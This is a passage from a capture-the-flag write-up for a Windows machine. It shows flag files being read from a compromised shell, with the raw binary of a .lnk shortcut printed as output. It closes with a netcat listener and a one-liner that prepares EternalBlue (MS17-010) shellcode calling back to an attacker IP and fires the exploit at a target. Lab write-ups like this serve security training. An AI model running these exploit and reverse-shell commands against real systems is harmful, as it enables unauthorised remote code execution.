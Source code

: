 
### Flag2

```bash
C:\Windows\system32>type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Windows\system32>type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
LF  h+汖h+汖=]'PO :+00/C:\R1MWindows:M*pWindowsV1qNSystem32:qN*         System32P1Mconfig:M*    configX2'M flag2.txtﾍM
                                                                                                                      M
                                                                                                                       *flag2.txtS-Rf
                                                                                                                                     C:\Windows\System32\config\flag2.txt6..\..\..\..\..\..\..\Windows\System32\config\flag2.txtC:\Windows\System32\config(      1SPSXFL8C&m`Xjon-pc̴HCKzk:d
                                                                          )d4̴HCKzk:d
                                                                                    )d4
```

```bash
C:\Windows\system32>type C:\Windows\System32\config\flag2.txt
type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```


### Flag3

```bash
C:\Windows\system32>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```


## Additional
---

### One Liner To Auto Exploit with stageless reverse shell (Wrote For OSCP)


### No named pip

```bash
rlwrap -cAr nc -nlvp 1111
```

```bash
LHOST="10.11.19.145"; LPORT=1111; RHOST="10.10.94.165"; cd /opt/sectools/CVE/AutoBlue-MS17-010/shellcode && echo -e "y\n${LHOST}\n${LPORT}\n${LPORT}\n1\n1" | bash shell_prep.sh && cd .. && python eternalblue_exploit7.py $RHOST ./shellcode/sc_x64.bin 15
```

